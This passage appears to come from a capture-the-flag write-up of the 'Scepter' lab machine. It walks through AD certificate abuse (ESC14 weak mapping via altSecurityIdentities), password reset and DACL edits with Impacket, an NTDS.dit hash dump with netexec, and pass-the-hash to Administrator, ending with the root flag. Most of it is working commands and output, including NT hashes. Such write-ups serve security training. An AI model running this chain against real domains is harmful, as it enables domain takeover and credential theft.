Collecting blinker>=1.9 (from flask>=1.0->impacket->certipy-ad==4.8.2)
  Using cached blinker-1.9.0-py3-none-any.whl.metadata (1.6 kB)
INFO: pip is looking at multiple versions of pyasn1-modules to determine which version is compatible with other requirements. This could take a while.
Collecting pyasn1_modules (from impacket->certipy-ad==4.8.2)
  Downloading pyasn1_modules-0.4.1-py3-none-any.whl.metadata (3.5 kB)
Collecting MarkupSafe>=2.0 (from Jinja2>=3.1.2->flask>=1.0->impacket->certipy-ad==4.8.2)
  Using cached MarkupSafe-3.0.2-cp313-cp313-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (4.0 kB)
Downloading pyasn1-0.4.8-py2.py3-none-any.whl (77 kB)
Using cached asn1crypto-1.5.1-py2.py3-none-any.whl (105 kB)
Using cached dnspython-2.7.0-py3-none-any.whl (313 kB)
Using cached pyOpenSSL-24.0.0-py3-none-any.whl (58 kB)
Using cached cryptography-42.0.8-cp39-abi3-manylinux_2_28_x86_64.whl (3.9 MB)
Using cached ldap3-2.9.1-py2.py3-none-any.whl (432 kB)
Downloading pycryptodome-3.22.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (2.3 MB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 2.3/2.3 MB 37.8 MB/s eta 0:00:00
Using cached requests-2.32.3-py3-none-any.whl (64 kB)
Downloading requests_ntlm-1.3.0-py3-none-any.whl (6.6 kB)
Using cached unicrypto-0.0.10-py3-none-any.whl (95 kB)
Using cached certifi-2025.1.31-py3-none-any.whl (166 kB)
Using cached cffi-1.17.1-cp313-cp313-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (479 kB)
Using cached charset_normalizer-3.4.1-cp313-cp313-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (144 kB)
Using cached flask-3.1.0-py3-none-any.whl (102 kB)
Using cached idna-3.10-py3-none-any.whl (70 kB)
Downloading ldapdomaindump-0.10.0-py3-none-any.whl (19 kB)
Downloading pyspnego-0.11.2-py3-none-any.whl (130 kB)
Using cached urllib3-2.4.0-py3-none-any.whl (128 kB)
Downloading pyasn1_modules-0.4.1-py3-none-any.whl (181 kB)
Using cached pycryptodomex-3.22.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (2.3 MB)
Using cached six-1.17.0-py2.py3-none-any.whl (11 kB)
Using cached blinker-1.9.0-py3-none-any.whl (8.5 kB)
Using cached click-8.1.8-py3-none-any.whl (98 kB)
Using cached itsdangerous-2.2.0-py3-none-any.whl (16 kB)
Using cached jinja2-3.1.6-py3-none-any.whl (134 kB)
Using cached werkzeug-3.1.3-py3-none-any.whl (224 kB)
Using cached pycparser-2.22-py3-none-any.whl (117 kB)
Using cached MarkupSafe-3.0.2-cp313-cp313-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (23 kB)
Building wheels for collected packages: certipy-ad
  Building wheel for certipy-ad (pyproject.toml) ... done
  Created wheel for certipy-ad: filename=certipy_ad-4.8.2-py3-none-any.whl size=131568 sha256=18297e15689832411199755037219b6370584df1386ad6f59af682c81fd80503
  Stored in directory: /tmp/pip-ephem-wheel-cache-4gssfjfv/wheels/58/75/1d/20ef7cf022ab0f9f8fd5c5acf9de7b6a655fa00426d3f35b4c
Successfully built certipy-ad
Installing collected packages: pyasn1, asn1crypto, urllib3, six, pycryptodomex, pycryptodome, pycparser, pyasn1_modules, MarkupSafe, ldap3, itsdangerous, idna, dsinternals, dnspython, click, charset_normalizer, certifi, blinker, Werkzeug, unicrypto, requests, ldapdomaindump, Jinja2, cffi, flask, cryptography, pyspnego, pyopenssl, requests_ntlm, impacket, certipy-ad
Successfully installed Jinja2-3.1.6 MarkupSafe-3.0.2 Werkzeug-3.1.3 asn1crypto-1.5.1 blinker-1.9.0 certifi-2025.1.31 certipy-ad-4.8.2 cffi-1.17.1 charset_normalizer-3.4.1 click-8.1.8 cryptography-42.0.8 dnspython-2.7.0 dsinternals-1.2.4 flask-3.1.0 idna-3.10 impacket-0.12.0 itsdangerous-2.2.0 ldap3-2.9.1 ldapdomaindump-0.10.0 pyasn1-0.4.8 pyasn1_modules-0.4.1 pycparser-2.22 pycryptodome-3.22.0 pycryptodomex-3.22.0 pyopenssl-24.0.0 pyspnego-0.11.2 requests-2.32.3 requests_ntlm-1.3.0 six-1.17.0 unicrypto-0.0.10 urllib3-2.4.0
```

### Testing for ESC14

Next we checked the `Certficate Authority` again against `ESC14` and indeed `h.brown` was the way to go.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/Certipy/certipy]
└─$ python3 entry.py find -u 'd.baker@scepter.htb' -hashes :'18b5fb0d99e7a475316213c15b6f22ce' -dc-ip 10.129.248.205 -esc14 -vulnerable -stdout -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'scepter-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'scepter-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'scepter-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'scepter-DC01-CA'
[*] Finding users with weak explicit mappings
[*] Found 1 users with weak explicit mapping
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : scepter-DC01-CA
    DNS Name                            : dc01.scepter.htb
    Certificate Subject                 : CN=scepter-DC01-CA, DC=scepter, DC=htb
    Certificate Serial Number           : 716BFFE1BE1CD1A24010F3AD0E350340
    Certificate Validity Start          : 2024-10-31 22:24:19+00:00
    Certificate Validity End            : 2061-10-31 22:34:19+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SCEPTER.HTB\Administrators
      Access Rights
        ManageCertificates              : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        ManageCa                        : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        Enroll                          : SCEPTER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : StaffAccessCertificate
    Display Name                        : StaffAccessCertificate
    Certificate Authorities             : scepter-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireEmail
                                          SubjectRequireDnsAsCn
                                          SubjectAltRequireEmail
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 99 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SCEPTER.HTB\staff
      Object Control Permissions
        Owner                           : SCEPTER.HTB\Enterprise Admins
        Full Control Principals         : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Owner Principals          : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Dacl Principals           : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Property Principals       : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
    [!] Vulnerabilities
      ESC9                              : 'SCEPTER.HTB\\staff' can enroll and template has no security extension
ESC14                                   : 
"h.brown" is configured with weak mapping : X509:<RFC822>h.brown@scepter.htb
```

### Privilege Escalation to p.adams

Once again we needed a target and checked the other available users. One of them, `p.adams` had the `permission` to `DCSync` which clearly was the way to go.



In order to abuse `ESC14` we needed once again to start from scratch to fight against the `cleanup job`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ impacket-changepasswd 'scepter.htb'/'a.carter'@10.129.246.122 -reset -altuser 'd.baker' -althash :'18b5fb0d99e7a475316213c15b6f22ce'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

New password: 
Retype new password: 
[*] Setting the password of scepter.htb\a.carter as scepter.htb\d.baker
[*] Connecting to DCE/RPC as scepter.htb\d.baker
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'newpassword' 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250421-233728.bak
[*] DACL modified successfully!
```

But this time we set a `dummy email address` on `d.baker`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p 'newpassword' set object d.baker mail -v foobar@scepter.htb
[+] d.baker's mail has been updated
```

After that we mapped this `dummy email address` to `p.adams` within the `session` of `h.brown`.

```powershell
*Evil-WinRM* PS C:\Users\h.brown\Documents> Set-ADUser -Identity "p.adams" -Add @{'altSecurityIdentities'='X509:<RFC822>foobar@scepter.htb'}
```

Then we enrolled the `StaffAccessCertificate` using `d.baker` which resulted in a new `d.baker.pfx` file.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ certipy-ad req -ca scepter-DC01-CA -username d.baker@scepter.htb -hashes 18b5fb0d99e7a475316213c15b6f22ce -template StaffAccessCertificate
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 17
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'
```

With the new `d.baker.pfx` we authenticated as `p.adams` and received his `hash` and `.ccache` file.

```shell
$ certipy-ad auth -pfx 'd.baker.pfx' -domain 'scepter.htb' -username 'p.adams'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: p.adams@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'p.adams.ccache'
[*] Trying to retrieve NT hash for 'p.adams'
[*] Got hash for 'p.adams@scepter.htb': aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0
```

## Privilege Escalation to System

After we `exported` the `.cache` file we dumped the `NTDS.dit` using `NetExec`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ export KRB5CCNAME=p.adams.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ netexec smb 10.129.248.205 --use-kcache --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         10.129.248.205  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.248.205  445    DC01             [+] scepter.htb\p.adams from ccache 
SMB         10.129.248.205  445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.129.248.205  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.248.205  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:a291ead3493f9773dc615e66c2ea21c4:::
SMB         10.129.248.205  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.248.205  445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c030fca580038cc8b1100ee37064a4a9:::
SMB         10.129.248.205  445    DC01             h.brown\d.baker:1106:aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce:::
SMB         10.129.248.205  445    DC01             scepter.htb\a.carter:1107:aad3b435b51404eeaad3b435b51404ee:2e24650b1e4f376fa574da438078d200:::
SMB         10.129.248.205  445    DC01             scepter.htb\h.brown:1108:aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c:::
SMB         10.129.248.205  445    DC01             scepter.htb\p.adams:1109:aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0:::
SMB         10.129.248.205  445    DC01             scepter.htb\e.lewis:2101:aad3b435b51404eeaad3b435b51404ee:628bf1914e9efe3ef3a7a6e7136f60f3:::
SMB         10.129.248.205  445    DC01             scepter.htb\o.scott:2102:aad3b435b51404eeaad3b435b51404ee:3a4a844d2175c90f7a48e77fa92fce04:::
SMB         10.129.248.205  445    DC01             scepter.htb\M.clark:2103:aad3b435b51404eeaad3b435b51404ee:8db1c7370a5e33541985b508ffa24ce5:::
SMB         10.129.248.205  445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:0a4643c21fd6a17229b18ba639ccfd5f:::
SMB         10.129.248.205  445    DC01             [+] Dumped 11 NTDS hashes to /home/kali/.nxc/logs/DC01_10.129.248.205_2025-04-20_235400.ntds of which 10 were added to the database
SMB         10.129.248.205  445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.129.248.205  445    DC01             [*] cat /home/kali/.nxc/logs/DC01_10.129.248.205_2025-04-20_235400.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.129.248.205  445    DC01             [*] grep -iv disabled /home/kali/.nxc/logs/DC01_10.129.248.205_2025-04-20_235400.ntds | cut -d ':' -f1
```

Now we were able to `Pass-the-Hash (PtH)` our way as `Administrator` into the box and grab the `root.txt`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ evil-winrm -i dc01.scepter.htb -u administrator -H a291ead3493f9773dc615e66c2ea21c4
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
ee7954e21ec80c02361c82522b9fd9bd
```
